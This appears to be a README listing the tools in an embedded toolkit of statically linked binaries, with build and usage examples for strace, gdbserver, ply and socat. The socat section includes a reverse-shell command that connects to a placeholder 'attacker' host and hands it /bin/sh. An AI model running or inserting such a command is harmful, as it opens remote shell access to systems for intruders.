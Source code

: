 # Tools Reference

Complete reference for all tools available in Sthenos Embedded Toolkit.

## Musl Static Tools

All tools are statically linked with musl libc and have zero runtime dependencies.

### Core Debugging Tools

#### strace
**System call tracer** - Monitor system calls made by programs.

```bash
./build strace --arch arm32v7le
./output/arm32v7le/strace ls -la
```

**Use cases**: Debugging, reverse engineering, security analysis

#### gdbserver  
**Remote debugging server** - Debug programs remotely with GDB.

```bash
./build gdbserver --arch aarch64
# On target: ./gdbserver :1234 /path/to/program
# On host: gdb -ex "target remote target:1234"
```

#### ply
**BPF-based dynamic tracer** - Lightweight eBPF/kprobes tracing.

```bash  
./build ply --arch x86_64
./output/x86_64/ply 'kprobe:sys_open { printf("open: %s\n", str(arg1)); }'
```

**Note**: Only supports little-endian architectures (x86_64, aarch64, arm32v7le, mips32le, riscv64, ppc64le)

### Network Tools

#### socat
**Socket relay tool** - Swiss army knife for network connections.

```bash
./build socat --arch mips32le  
# Port forwarding
./output/mips32le/socat TCP-LISTEN:8080,fork TCP:target:80
# Reverse shell
./output/mips32le/socat TCP:attacker:4444 EXEC:/bin/sh
```

#### ncat / ncat-ssl
**Network utility** - Netcat replacement with SSL support.
